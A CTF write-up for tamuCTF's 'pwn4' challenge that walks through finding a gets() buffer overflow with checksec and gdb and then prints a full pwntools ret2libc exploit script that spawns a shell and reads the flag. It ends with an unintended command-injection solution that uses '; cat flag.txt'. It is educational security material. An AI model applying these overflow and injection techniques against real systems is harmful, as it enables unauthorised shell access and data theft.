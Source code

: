 ## tamuCTF: pwn4
##### *tl;dr: ret2libc + unintended solution*
#### This challenge was a bit odd, not only because I was unfamiliar with the intended way of solving it but because of the unintended solution. Maybe the challenge creators have overlooked it? At this point, I'd want to explain the intended solution first to have a more in-depth discussion of what it is and how it is executed after which is just showing how to do the intended way. First things first, check for the security properties of the binary using *checksec*:
```
$ checksec pwn4
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
#### We can see that NX is enabled, this means that the stack has its non executable properties turned on, we can't execute code we put in the stack, thus we can't get a shell using shellcode. But before we jump to which exploit method to do, we have to play around with the binary.
```
$ ./pwn4
    ls as a service (laas)(Copyright pending)
    Enter the arguments you would like to pass to ls:
    aaaaaaaaaaaaaa
    Result of ls aaaaaaaaaaaaaa:
    ls: cannot access 'aaaaaaaaaaaaaa': No such file or directory
    ls as a service (laas)(Copyright pending)
    Enter the arguments you would like to pass to ls:
```
#### We see here that the binary just loops again and again, performing this process called ls as a service (laas). As the prompt says, we need to enter arguments for ls. Let's try putting in actual ls arguments:
```
$ ./pwn4
    ls as a service (laas)(Copyright pending)
    Enter the arguments you would like to pass to ls:
    -a
    Result of ls -a:
    .   exploit.py		   flag.txt	 peda-session-ls.txt	pwn4
    ..  exploit_unintended.py  .gdb_history  peda-session-pwn4.txt
    ls as a service (laas)(Copyright pending)
    Enter the arguments you would like to pass to ls:
    -l
    Result of ls -l:
    total 32
    -rw-r--r-- 1 venom venom  479 Mar  7 14:38 exploit.py
    -rw-r--r-- 1 venom venom  214 Mar  7 02:55 exploit_unintended.py
    -rw-r--r-- 1 venom venom   23 Feb 27 23:56 flag.txt
    -rw-r--r-- 1 venom venom    7 Mar  7 14:18 peda-session-ls.txt
    -rw-r--r-- 1 venom venom   12 Mar  7 14:34 peda-session-pwn4.txt
    -rwxr-xr-x 1 venom venom 7504 Feb 20 02:45 pwn4
```
#### Interesting. It actually runs the ls utility and performs it with the specified arguments, but if we input random gibberish we get nothing. We don't know our exploit method yet, but we do know that the binary runs the ls process in a loop. Let's fire up gdb to understand what's happening a little bit more:
```
$ gdb ./pwn4
    gdb-peda$ disas main
    Dump of assembler code for function main:
       [...]
       0x08048670 <+50>:	call   0x80485bb <laas>
       0x08048675 <+55>:	jmp    0x8048670 <main+50>
    End of assembler dump.
```
#### Proof that the binary just runs in a loop. Let's take a look at the laas function:
```
$ gdb ./pwn4
    gdb-peda$ disas laas
       [...]
       0x080485f4 <+57>:	lea    eax,[ebp-0x21]
       0x080485f7 <+60>:	push   eax
       0x080485f8 <+61>:	call   0x80483d0 <gets@plt>
       0x080485fd <+66>:	add    esp,0x10
       0x08048600 <+69>:	sub    esp,0x8
       0x08048603 <+72>:	push   0x2f
       0x08048605 <+74>:	lea    eax,[ebp-0x21]
       0x08048608 <+77>:	push   eax
       0x08048609 <+78>:	call   0x8048400 <strchr@plt>
       0x0804860e <+83>:	add    esp,0x10
       0x08048611 <+86>:	test   eax,eax
       0x08048613 <+88>:	jne    0x8048626 <laas+107>
       0x08048615 <+90>:	sub    esp,0xc
       0x08048618 <+93>:	lea    eax,[ebp-0x21]
       0x0804861b <+96>:	push   eax
       0x0804861c <+97>:	call   0x8048566 <run_cmd>
       [...]
```
#### We see a gets() call, which we know by now to be vulnerable to buffer overflow attacks, and as seen on the results of checksec, there is no stack canary for the binary which means we can be able to perform the attack. One last thing to look at is the run_cmd function:
```
$ gdb ./pwn4
    gdb-peda$ disas run_cmd
       [...]
       0x080485a9 <+67>:	lea    eax,[ebp-0x26]
       0x080485ac <+70>:	push   eax
       0x080485ad <+71>:	call   0x80483f0 <system@plt>
       0x080485b2 <+76>:	add    esp,0x10
```
#### The function calls ```<system@plt>``` which is used to issue a command to be executed, in the binary's case, it executes the ls command which prints out the contents of the directory and other options based on what argument is given. What makes this interesting is that system function is stored in the ```C Library```, specifically in stdlib.h.This is where we are introduced to the concept of ```ret2libc``` (return to libc) which is a means to defeat a non-executable stack by using the functions stored in the C Library. Piecing together what we know so far, our exploid method will be a buffer overflow into ret2libc. For this, we'll need the offset to overflow the buffer (which we already know from the disassembly of the laas function, the buffer has a size of 33 (0x21) and we'll need 4 bytes more - total of 37 bytes to smash the stack), the address of the system function and /bin/sh which we would pass to system in order for us to get a shell. We can do this with gdb:
```
$ gdb ./pwn4
    gdb-peda$ x/ system
        0x80483f0 <system@plt>:	0xa01825ff
```
#### We now know where system is stored at, which is at address 0x80483f0. Next we'll need to locate the /bin/sh string (why string? because system requires a string argument, which will be the function it'll execute), we can do this with the ```find``` functionality of gdb:
```
$ gdb ./pwn4
    gdb-peda$ find /bin/sh
        Searching for '/bin/sh' in: None ranges
        Found 1 results, display max 1 items:
        pwn4 : 0x804a034 ("/bin/sh")
```
#### Now we have all the ingredients we need for our exploit code. But before we head onto that, we need to take in mind the order for our exploit which is ```offset + system_address + four_dummy_bytes + bin_sh```, the reason for this is because it has something to do with the function prologue of the system function. Essentially, this is the part of the function that sets up the stack frame the function will use. This includes making sure that arguments are passed to the function correctly. Now our exploit:
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4324
p = remote(HOST,PORT)
# p = process('./pwn4')
print(p.recv())

#: Exploit code
offset = 'A' * 37
system = p32(0x080483f0)
junk = p32(0xdeadbeef)
bin_sh = p32(0x0804a034) 
exploit = offset + system + junk + bin_sh

#: Send data
p.sendline(exploit)
print(p.recv())
p.sendline('cat flag.txt')
print(p.recv())
```
#### Now we run our exploit and get the flag!:
```
$ python exploit.py
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:

Result of ls AAAAAAAAAAAAAAAAAAAAAAA:

gigem{5y573m_0v3rfl0w}
```
#### The unintended solution
#### We can just seperate which commands to execute in the terminal using a semicolon ```(;)```. We can simply connect to the server and input ```; cat flag.txt``` which will output the flag for us.
